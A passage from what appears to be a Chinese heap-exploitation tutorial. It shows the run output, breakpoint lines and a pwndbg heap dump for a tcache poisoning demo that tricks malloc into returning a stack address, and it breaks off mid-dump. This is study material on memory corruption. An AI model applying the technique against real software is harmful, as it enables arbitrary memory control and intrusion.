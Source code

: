 ### <a class="reference-link" name="%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>运行结果

```
This file demonstrates a simple tcache poisoning attack by tricking malloc into
returning a pointer to an arbitrary location (in this case, the stack).
The attack is very similar to fastbin corruption attack.

The address we want malloc() to return is 0x7ffeeef34a50.
Allocating 1 buffer.
malloc(128): 0x5560af76b260
Freeing the buffer...
Now the tcache list has [ 0x5560af76b260 ].
We overwrite the first 8 bytes (fd/next pointer) of the data at 0x5560af76b260
to point to the location to control (0x7ffeeef34a50).
1st malloc(128): 0x5560af76b260
Now the tcache list has [ 0x7ffeeef34a50 ].
2nd malloc(128): 0x7ffeeef34a50
We got the control
```

### <a class="reference-link" name="%E5%85%B3%E9%94%AE%E4%BB%A3%E7%A0%81%E8%B0%83%E8%AF%95"></a>关键代码调试

这次将断点下在了

```
15     intptr_t *a = malloc(128);
 ► 16     fprintf(stderr, "malloc(128): %pn", a);

   18     free(a);
   19 
 ► 20     fprintf(stderr, "Now the tcache list has [ %p ].n", a);

 ► 23     a[0] = (intptr_t)&amp;stack_var;

   28     intptr_t *b = malloc(128);
 ► 29     fprintf(stderr, "2nd malloc(128): %pn", b);
```

我们直接运行就好，首先我们申请了chunk a,此时的堆是这样的

```
pwndbg&gt; heap
0x555555756000 PREV_INUSE {
  mchunk_prev_size = 0, 
  mchunk_size = 593, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x555555756250 PREV_INUSE {
  mchunk_prev_size = 0, 
  mchunk_size = 145, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557562e0 PREV_INUSE {
  mchunk_prev_size = 0, 
  mchunk_size = 134433, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
```